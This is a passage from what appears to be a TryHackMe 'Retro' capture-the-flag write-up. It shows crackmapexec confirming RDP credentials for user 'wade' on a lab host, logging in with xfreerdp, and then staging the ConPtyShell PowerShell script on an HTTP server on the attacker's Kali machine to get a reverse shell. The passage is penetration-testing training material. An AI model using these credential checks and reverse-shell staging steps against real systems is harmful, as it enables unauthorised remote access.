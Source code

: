 - **RDP**
   
```bash
┌──(kali㉿kali)-[~/thm/Retro]
└─$ cme rdp 10.10.15.115 -u 'wade' -p 'parzival'
RDP         10.10.15.115    3389   RETROWEB         [*] Windows 10 or Windows Server 2016 Build 14393 (name:RETROWEB) (domain:RetroWeb) (nla:True)
RDP         10.10.15.115    3389   RETROWEB         [+] RetroWeb\wade:parzival (Pwn3d!)
```


## Login with RDP

```bash
xfreerdp /size:1800x900 /cert:ignore /u:wade /p:parzival /v:10.10.15.115
```

![](/assets/obsidian/ec93449528186d2a9ff76ea244d1734f.png)


## Get reverse shell

I prefer using reverse shell instead of gui

Host conptyshell

```bash
┌──(kali㉿kali)-[~/thm/Retro]
└─$ mkdir www&&cd www

┌──(kali㉿kali)-[~/thm/Retro/www]
└─$ ln -s /opt/sectools/powershell/ConPtyShell/Invoke-ConPtyShell.ps1

┌──(kali㉿kali)-[~/thm/Retro/www]
└─$ python -m http.server 80
```
